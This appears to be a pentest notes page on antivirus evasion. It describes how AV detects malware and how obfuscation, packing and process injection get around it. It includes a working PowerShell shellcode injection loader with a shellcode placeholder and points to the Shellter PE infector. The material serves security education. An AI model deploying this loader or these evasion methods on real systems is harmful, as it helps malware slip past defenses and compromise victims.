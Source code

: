 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Antivirus Evasion

## Antivirus detection methodologies

AV relies on multiple methods in order to detect malwares.

### Signature-based Detection

Signature-based is the most traditional method. The AV software compares files or strings against a database of known malware signatures. \
When it finds a match, it flags the file as malicious and quarantines it.

### **Heuristic-Based Detection**

Heuristics look for suspicious patterns or behaviors, such as code obfuscation, the use of certain functions often found in malware, or unusual file structures.&#x20;

### **Behavioral Detection**

Behavior based analyzes the behavior of a binary file, usually by executing the file in an emulated environment such sandboxes or virtual machines, searching for malicious actions

### **Machine Learning Detection**

Machine Learning detection uses algorithms trained on vast amounts of data to identify malware. The system learns to distinguish between legit and malicious files by collecting and analyzing additional metadata.

## Antivirus evasion methodologies

There are multiple ways to bypass AVs detections which usually used combined.

### **Obfuscators**

Obfuscators modify the malware’s code so that it appears harmless to signature-based detection tools. Common tactics include renaming variables, changing control flow, and inserting junk code that doesn’t affect the execution but hides the true intent of the malware.

### **Encryption and Packing**

Encryption and packing techniques are used to compress or encrypt the malware payload. \
The malware is packed or encrypted, so its true payload is only Unpacked or decrypted at runtime. &#x20;

### **Process Hollowing or Injection**

Process memory injection is a technique where malware injects its malicious code into the memory space of another legitimate process. The malware uses system API functions to write its payload into the address space of another process. \
Then, the code will be executed within the context of this legitimate process, making it harder for antivirus solutions to detect.

Process hollowing is a stealthy technique where a legitimate process is launched and then its memory is replaced with malicious code.\
Once the process is in memory but before it starts execution, the malware “hollows out” the legitimate process's memory, replacing it with the malicious payload.&#x20;

***

## Antivirus evasion in practice

### Process Injection

The following example will demonstrate a malicious PowerShell script involving Process Shellcode Injection combined with Obfuscators method.

The source code bellow is a PowerShell Cmdlet which defines several Windows API functions.\
These Win API Functions enable memory management allowing manipulate memory and create threads directly.  Also, the variables names use to obfuscate the code.

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$var2 = Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;
```

The source code below shows the usage of the Win API and injecting the shellcode in to the legitimate process memory space.

```powershell
[Byte[]];   
[Byte[]] $var1 = <shellcode>

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};

$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

### Shellter

Shellter is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created.\
It can be used in order to inject shellcode into native Windows applications.

Shellter provides interactive mode and easy to operate.

> Our **primary focus** has been on **enhancing runtime evasion** to ensure your beacons and payloads are loaded as safely as possible against modern EDR solutions.

```
sudo apt install shellter
```

## References

{% embed url="https://www.virustotal.com/gui/" %}
VirusTotal
{% endembed %}

{% embed url="https://www.kali.org/tools/shellter/" %}
Shellter
{% endembed %}

